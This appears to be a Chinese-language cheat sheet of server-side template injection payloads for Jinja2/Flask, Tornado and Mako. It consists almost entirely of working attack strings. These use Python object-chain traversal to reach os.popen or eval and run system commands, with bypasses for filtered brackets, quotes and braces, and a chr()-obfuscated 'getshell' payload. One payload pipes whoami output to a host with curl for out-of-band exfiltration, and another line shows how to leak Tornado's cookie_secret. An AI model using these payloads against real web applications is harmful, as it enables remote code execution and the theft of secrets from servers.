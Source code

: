 ```python
正常payload：
url?name={{().__class__.__base__.__subclasses__[177].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ipconfig").read()')}}`

使用attr()绕过：

{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__getitem__')(177)|attr('__init__')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('eval')('__import__("os").popen("dir").read()')}}

使用[]绕过：
可以用getitem()用来获取序号

url?name={{ config['__class__']['__init__']['__globals__']['os']['popen']('ipconfig')['read']() }}

其他：
''.__class__可以写成 getattr('',"__class__")或者 ’'|attr("__class__")
```

过滤[]
可以用getitem()用来获取序号

```python
"".__class__.__mro__[2]
"".__class__.__mro__.__getitem__(2)
```

绕过双大括号（dns外带）

```python
{% if ''.__class__.__bases__.__getitem__(0).__subclasses__().pop(250).__init__.__globals__.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}
```

绕过 引号 中括号 通用getshell

```python
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(250).__init__.__globals__.__builtins__.chr %}{% for c in ().__class__.__base__.__subclasses__() %}{% if c.__name__==chr(95)%2bchr(119)%2bchr(114)%2bchr(97)%2bchr(112)%2bchr(95)%2bchr(99)%2bchr(108)%2bchr(111)%2bchr(115)%2bchr(101) %}{{ c.__init__.__globals__.popen(chr(119)%2bchr(104)%2bchr(111)%2bchr(97)%2bchr(109)%2bchr(105)).read() }}{% endif %}{% endfor %}
```

#### tornado

使用`?msg={handler.settings}` 获取cookie_secret

```python
{{2*3}}
{{__import__("subprocess").check_output("ls")}}
```

#### Mako

```python
${2*3}
${__import__("subprocess").check_output("ls")}
${__import__(chr(115)+chr(117)+chr(98)+chr(112)+chr(114)+chr(111)+chr(99)+chr(101)+chr(115)+chr(115)).check_output(chr(108)+chr(115))}
```
